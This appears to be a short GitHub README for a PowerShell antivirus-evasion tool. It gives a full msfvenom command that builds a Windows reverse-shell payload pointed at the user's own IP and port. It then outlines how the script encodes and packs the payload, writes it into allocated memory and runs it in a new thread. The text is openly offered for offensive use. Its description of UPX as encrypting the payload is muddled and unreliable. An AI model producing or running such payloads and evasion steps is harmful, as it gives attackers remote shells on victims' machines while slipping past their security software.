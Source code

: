# Powershell_Av_Evasion2
Don't guarantee it will work is just basic powershell script that uses windowsAPI

to generate a simple payload u can use `msfvenom` with this command 
```
msfvenom -p windows/shell_reverse_tcp LHOST=<your IP address> LPORT=<your listening port> -f psh-net
```

it just encodes the payload
compresses and encrypts the payload with UPX packer
allocates memory 
writes the payload into memory
creates a new thread and executes it
